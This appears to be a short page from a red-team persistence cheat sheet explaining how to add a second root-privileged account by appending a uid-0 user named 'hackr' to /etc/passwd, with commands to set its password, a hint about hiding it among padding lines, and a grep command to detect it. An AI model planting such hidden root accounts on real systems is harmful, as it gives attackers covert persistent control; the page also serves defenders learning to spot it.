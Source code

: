 # ⚠ Adding a Root user (Not OPSEC)

{% hint style="danger" %}
This technique IS NOT OPSEC AT ALL.
{% endhint %}

For some reason, it is not important that a user is named “root”, but that it’s uid is 0. So if you create a user with the uid 0, you’ll have root privileges. Multiple users with the same uid but different name isn’t harmful. So combining this with the 1000 scroll lines trick mentioned above, you have to do something like this:

```
echo 'hackr:x:0:0:hackr,,,:/home/hackr:/bin/bash' | sudo tee -a /etc/passwd
printf %sn%s hackr hackr | sudo passwd hackr
```

add 1000 lines to the `passwd `file and do the things above again. To counter:

```
grep ':0:' /etc/passwd
```

